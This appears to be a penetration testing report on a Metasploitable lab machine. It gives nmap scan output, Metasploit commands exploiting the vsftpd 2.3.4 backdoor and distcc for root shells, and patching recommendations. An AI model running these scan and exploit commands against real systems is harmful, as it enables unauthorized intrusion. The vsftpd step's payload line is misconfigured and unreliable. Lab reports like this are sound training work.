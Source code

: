 ### Penetration Testing Report

#### Executive Summary

**Objective:**  
To identify and remediate vulnerabilities within the target network through ethical intrusions.

**Key Findings:**  
Multiple critical vulnerabilities were identified and exploited, demonstrating significant risks to the network.

#### Methodology

**Planning Phase:**  
-> Defined objectives, scope, and rules of engagement.
-> Identified Metasploitable as the target system.

**Information Gathering:**  
-> Utilized Nmap for network scanning and enumeration.
  -> Command: `nmap -sS -sV -A <Metasploitable_IP>`

**Vulnerability Analysis:**  
-> Identified vulnerabilities using Metasploit and manual techniques.

**Exploitation:**  
-> Successfully exploited several vulnerabilities using Metasploit.

**Post-Exploitation Analysis:** 
-> Evaluated the impact and gathered sensitive data.

#### Findings

1. **Vulnerability 1: vsftpd 2.3.4 Backdoor**
     **Description:** A backdoor vulnerability in vsftpd 2.3.4.
     **Impact:** Allowed unauthorized remote access.
     **Exploit Used:** Metasploit `exploit/unix/ftp/vsftpd_234_backdoor`.
     **Evidence:** Screenshot of successful exploit and shell access.

2. **Vulnerability 2: Distcc Daemon Command Execution**
     **Description:** Remote code execution vulnerability in Distcc.
     **Impact:** Allowed arbitrary command execution.
     **Exploit Used:** Metasploit `exploit/unix/misc/distcc_exec`.
     **Evidence:** Command output showing root access.

#### Recommendations

  **Patch vsftpd to the latest version.**
  **Disable or restrict access to the Distcc daemon.**
  **Implement regular vulnerability scanning and patch management.**
  **Enhance network segmentation and access controls.**

#### Supporting Evidence

1. **Nmap Scan Results:**
   ```text
       Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:45 EDT
     Nmap scan report for 192.168.10.4
     Host is up (0.0036s latency).
     Not shown: 977 closed tcp ports (conn-refused)
     PORT     STATE SERVICE     VERSION
     21/tcp   open  ftp         vsftpd 2.3.4
     22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
     23/tcp   open  telnet      Linux telnetd
     25/tcp   open  smtp        Postfix smtpd
     53/tcp   open  domain      ISC BIND 9.4.2
     80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
     111/tcp  open  rpcbind     2 (RPC #100000)
     139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
     445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
     512/tcp  open  exec        netkit-rsh rexecd
     513/tcp  open  login       OpenBSD or Solaris rlogind
     514/tcp  open  tcpwrapped
     1099/tcp open  java-rmi    GNU Classpath grmiregistry
     1524/tcp open  bindshell   Metasploitable root shell
     2049/tcp open  nfs         2-4 (RPC #100003)
     2121/tcp open  ftp         ProFTPD 1.3.1
     3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
     5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
     5900/tcp open  vnc         VNC (protocol 3.3)
     6000/tcp open  X11         (access denied)
     6667/tcp open  irc         UnrealIRCd
     8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
     8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
     Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .     
     Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds

   ```

2. **vsftpd 2.3.4 Backdoor Exploit:**
    Command: 
     ```text
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST 192.168.10.4
	 set payload exploit/unix/ftp/vsftpd_234_backdoor
     run
     ```
    Evidence: Screenshot of successful exploit showing shell access.

3. **Distcc Daemon Command Execution:**
    Command: 
     ```text
     use exploit/unix/misc/distcc_exec
     set RHOST 192.168.10.4
     run
     ```
    Evidence: Command output showing root access.

